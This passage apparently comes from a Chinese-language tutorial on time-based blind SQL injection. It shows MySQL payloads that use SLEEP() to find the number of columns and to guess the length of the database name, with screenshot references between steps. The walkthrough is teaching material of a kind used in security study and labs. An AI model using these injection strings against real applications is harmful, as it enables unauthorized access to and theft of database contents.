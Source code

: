 ```sql
0' OR (SELECT 1 FROM (SELECT IF(1=1,SLEEP(1),1)) AS a) ORDER BY 3#
```

> <img src="./IMG3/{B503981C-B86C-4552-BF4E-60FA9B29A787}.png">

因此，我们可以确定有3个字段

###### 泄露数据库

与布尔盲注类似，可以使用`LENGTH(DATABASE())>5`作为`IF()`的判断条件来猜测数据库名长度

```sql
0' OR (SELECT 1 FROM (SELECT IF(LENGTH(DATABASE())>5,SLEEP(1),1)) AS a)#
```

> <img src="./IMG3/{3D4BBE26-CCAB-4D88-8254-6681B5ECF3B0}.png">

```sql
0' OR (SELECT 1 FROM (SELECT IF(LENGTH(DATABASE())=4,SLEEP(1),1)) AS a)#
```

<img src="./IMG3/{B503981C-B86C-4552-BF4E-60FA9B29A787}.png">
